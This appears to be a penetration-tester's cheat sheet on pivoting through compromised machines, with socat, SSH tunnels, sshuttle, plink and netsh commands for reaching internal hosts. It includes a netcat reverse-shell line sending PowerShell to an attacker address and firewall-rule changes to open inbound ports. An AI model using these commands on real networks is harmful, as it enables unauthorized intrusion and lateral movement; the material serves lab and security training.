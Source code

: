 # Port Forwarding

Port forwarding is a technique that let one machine "bridge" his connection between two networks. In a case where we want to access to the machine B (a database) that is connected to the machine A (a virtual machine) that is connected to the WAN, we want first to exploit and access the machine A in order to reach the second machine, routable only through the network in which there is the machine A.

## Using Socat

Socat is a useful tool for Port Forwarding. Let's start it in verbose mode with

```shell
socat -ddd TCP-LISTEN:<KALI-PORT>,fork TCP:<TARGET-MACHINE>:<TARGET-PORT>
```

Next we will connect to it from the Kali VM with the PostgreSQL client that we have only on the Kali machine.

```shell
psql -h <TARGET-IP> -p <TARGET-PORT> -U postgres
```

For an SSH forwarding we can use

```shell
socat -ddd TCP-LISTEN:22,fork TCP:<TARGET-MACHINE>:2222
```

And then we can connect to it via

```shell
ssh user@<TARGET-IP> -p <TARGET-PORT>
```

An useful pre-compiled binary for Windows is [socat-1.7.3.0.exe](https://github.com/tech128/socat-1.7.3.0-windows/tree/master). It has to be run in the folder with all the DLL files. In this way we get a port forwarding from an exploited Windows machine to our Kali machine, and we can connect to the network the Windows machine is connected to.

```powershell
.\socat.exe TCP-LISTEN:2222, TCP:192.168.45.223:4444
```

An example of RevShell for this scenario is

```powershell
nc.exe <IP> 2222 -e powershell
```

# SSH Tunneling

## Local Port Forwarding

In this case we run the command on the **TARGET** that becames the "forwarder" between **KALI** and the **IP-B**. This is useful to directly connect **KALI** to the **IP-B** machine, through the connection forwarded from **TARGET** to **IP-A**. The

```shell
ssh -N -L 0.0.0.0:<LOCAL-PORT>:<IP-B>:<REMOTE-PORT> user@<IP-A>
```

```

KALI ----- TARGET ----- IP-A ----- IP-B [REMOTE-PORT]
|________________________||__________|

```

## Dynamic Port Forwarding

This lets us forward all ports to the **KALI** machine through the connection forwarded from **TARGET** to **IP-A**. It is useful when we want to perform a network scan and in the IP-A machine there isn't the NMAP binary.

```shell
ssh -N -D 0.0.0.0:<LOCAL-PORT> user@<IP-B>
```

```
     
KALI ----- TARGET ----- IP-A ----- IP-B [ALL PORTS]
 |________________________||__________|

```

To use commands we must pass through the SOCKS5 protocol, with the `proxychains` client. This client will forward all traffic to the proxy on the ssh listening port. In this way all the traffic will go through this connection. An example of the usage of proxychains for an nmap scan of the victim's subnet is the following:

```shell
proxychains nmap -sV -A -O 192.168.1.0/24
```

Proxychain configuration at `/etc/proxychains.conf` must be configured

```shell
[ProxyList]
socks5 <IP-B> <LOCAL-PORT>
```

## Remote Port Forwarding

It is more common for firewalls and network administration rules to have only filtering in the inbound traffic, but less filtering on the outbound connections. We can use Remote Port Forwarding to mitigate this defense. The following command is a Remote Port Forwarding from the Kali machine serving the SSH on port LOCAL-PORT and forwarding all the connections to the IP-B on the REMOTE-PORT

```shell
ssh -N -R 127.0.0.1:<LOCAL-PORT>:<IP-B>:<REMOTE-PORT> kali@<KALI-IP>
```

```
    RECEIVED AS OUTBOUND
 |¯¯¯¯¯¯¯¯¯¯¯>¯¯¯¯¯¯¯¯¯¯¯¯¯|      
KALI ----- TARGET ----- IP-A ----- IP-B [REMOTE PORT]
 |___________<____________||_________|
          OUTBOUND
```

## Remote Dynamic Port Forwarding

This, similar to the Local Dynamic port forwarding lets through the usage of `proxychains` to connect to the on all ports, based redirecting the traffic from the IP-A to the Kali machine on the

```shell
ssh -N -R <LOCAL-PORT> kali@<KALI-IP>
```

```
    RECEIVED AS OUTBOUND
 |¯¯¯¯¯¯¯¯¯¯¯>¯¯¯¯¯¯¯¯¯¯¯¯¯|      
KALI ----- TARGET ----- IP-A ----- IP-B [ALL PORTS]
 |___________<____________||_________|
          OUTBOUND
```

# Sshutle

This tools works like a VPN and routes our traffic through the SSH listener we spin on a server. First we have to set up `SOCAT` to listen in the , then we can scan the network simply using a normal NMAP.

```shell
socat TCP-LISTEN:<LOCAL-PORT>,fork TCP:<REMOTE-IP>:<REMOTE-PORT>
```

Next we run sshuttle specifying the subnets we want to be forwarded through the ssh connection

```shell
sshuttle -r database_admin@<REMOTE-IP>:<LOCAL-PORT> <SUBNET-1> <SUBNET-2>
```

Now, an NMAP on SUBNET-1 will work as we were in the same network.
# For Windows

## PLINK.EXE

Plink is the CLI version of PuTTY that allow us to use SSH Remote Forwarding if the OpenSSH service is missing. The syntax specifies the LOCAL-PORT on which Kali will listen and the REMOTE-PORT the Windows Machine will forward the connection to. This is useful in scenarios in which we have access only through CLI on the Windows Machine 1 and we want to connect via RDP to the Windows Machine 2, reachable only from the first Windows Machine.

```

KALI ---SSH--- WINDOWS-1 ---RDP--- WINDOWS-2
 |________________RDP__________________|

```

A simple plink Remote Forwarding is the following

```powershell
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:<LOCAL-PORT>:127.0.0.1:<REMOTE-PORT> <KALI-IP>
```

## NETSH

From the Microsoft documentation: "Netsh is a command-line scripting utility that allows you to display or modify the network configuration of a computer that is currently running. Netsh commands can be run by typing commands at the netsh shell and be used in batch files or scripts. Remote computers and the local computer can be configured by using netsh commands. First we must add the interface proxy with

```powershell
netsh interface portproxy add v4tov4 listenport=<LOCA-PORT> listenaddress=<LOCAL-IP> connectport=<REMOTE-PORT> connectaddress=<REMOTE-IP>
```

To show the status of the proxy

```powershell
netsh interface portproxy show all
```

We must allow the firewall rule to open a port in order to use the proxy. For this reason netsh requires Administrator privileges.

```powershell
netsh advfirewall firewall add rule name="port_forward_ssh_PORT" protocol=TCP dir=in localip=<LOCAL-IP> localport=<LOCAL-PORT> action=allow
```

Now, querying the LOCAL-IP with a connection, will connect the Kali machine to the REMOTE-IP on the REMOTE-PORT. At the end of the attack we should restore the firewall rules with

```powershell
netsh advfirewall firewall delete rule name="port_forward_ssh_PORT"
netsh interface portproxy del v4tov4 listenport=<LOCAL-IP> listenaddress=<LOCAL-IP>
```